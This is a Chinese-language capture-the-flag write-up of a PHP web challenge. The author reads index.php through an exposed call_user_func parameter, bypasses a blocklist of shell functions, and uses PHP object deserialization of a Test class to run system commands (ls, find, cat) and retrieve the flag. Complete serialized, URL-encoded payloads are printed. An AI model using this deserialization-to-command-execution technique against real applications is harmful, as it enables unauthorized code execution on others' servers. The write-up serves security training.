 考点：

　　1，​ file_get_contents

　　2，反序列化

进入靶场

![](https://img2020.cnblogs.com/blog/2443617/202111/2443617-20211104215727182-291741036.png)

有一个警示：看一下网页源码，

![](https://img2020.cnblogs.com/blog/2443617/202111/2443617-20211104215844443-214314106.png)

 发现是javascript语句，每过五秒提交一次 form1 表单。 是一个post请求，抓包看一下

![](https://img2020.cnblogs.com/blog/2443617/202111/2443617-20211104220147345-20520036.png)

 猜测是用func来执行p，尝试

func=system&p=ls

![](https://img2020.cnblogs.com/blog/2443617/202111/2443617-20211104220445785-86069661.png)

 发现被过滤了，尝试能不能读取index.php的内容。

 file_get_contents： 把整个文件读入一个字符串中。该函数是用于把文件的内容读入到一个字符串中的首选方法。

func=file_get_contents&p=index.php

![](https://img2020.cnblogs.com/blog/2443617/202111/2443617-20211104220631214-455593942.png)

 得到php源码，进行代码审计。

<?php
$disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
function gettime($func, $p) {
    $result = call_user_func($func, $p);
    $a= gettype($result);
    if ($a == "string") {
        return $result;
    } else {return "";}
}
class Test {
    var $p = "Y-m-d h:i:s a";
    var $func = "date";
    function __destruct() {
        if ($this->func != "") {
            echo gettime($this->func, $this->p);
        }
    }
}
$func = $_REQUEST["func"];
$p = $_REQUEST["p"];

if ($func != null) {
    $func = strtolower($func);
    if (!in_array($func,$disable_fun)) {
        echo gettime($func, $p);
    }else {
        die("Hacker...");
    }
}
?>

主函数输入func和p,判断func是否为空，strtolower()将func的内容全改成小写，判断func的内容是否在$disable_fun中，若不在，就执行gettime()函数，否则就输出Hacker...

源码中有一个Test类没用到。提醒我们用反序列化。尝试构造

<?php
class Test
{
    var $p = "ls";
    var $func = "system";
}
$a = new Test();
echo urlencode(serialize($a));
?>  
  
O%3A4%3A%22Test%22%3A2%3A%7Bs%3A1%3A%22p%22%3Bs%3A2%3A%22ls%22%3Bs%3A4%3A%22func%22%3Bs%3A6%3A%22system%22%3B%7D

![](https://img2020.cnblogs.com/blog/2443617/202111/2443617-20211104221526882-1666718415.png)

 成功执行，

尝试查找文件名为flag开头的文件 find / -name flag*

<?php
class Test
{
    var $p = "find / -name flag*";
    var $func = "system";
}
$a = new Test();
echo urlencode(serialize($a));
?>  
  
O%3A4%3A%22Test%22%3A2%3A%7Bs%3A1%3A%22p%22%3Bs%3A18%3A%22find+%2F+-name+flag%2A%22%3Bs%3A4%3A%22func%22%3Bs%3A6%3A%22system%22%3B%7D

![](https://img2020.cnblogs.com/blog/2443617/202111/2443617-20211104221916005-902019679.png)

 猜测flag的位置在最后两个文件，查看文件内容。

<?php
class Test
{
    var $p = "cat /tmp/flagoefiu4r93";
    var $func = "system";
}
$a = new Test();
echo urlencode(serialize($a));
?>  
  
O%3A4%3A%22Test%22%3A2%3A%7Bs%3A1%3A%22p%22%3Bs%3A22%3A%22cat+%2Ftmp%2Fflagoefiu4r93%22%3Bs%3A4%3A%22func%22%3Bs%3A6%3A%22system%22%3B%7D

![](https://img2020.cnblogs.com/blog/2443617/202111/2443617-20211104222110044-2132811607.png)

 得到flag。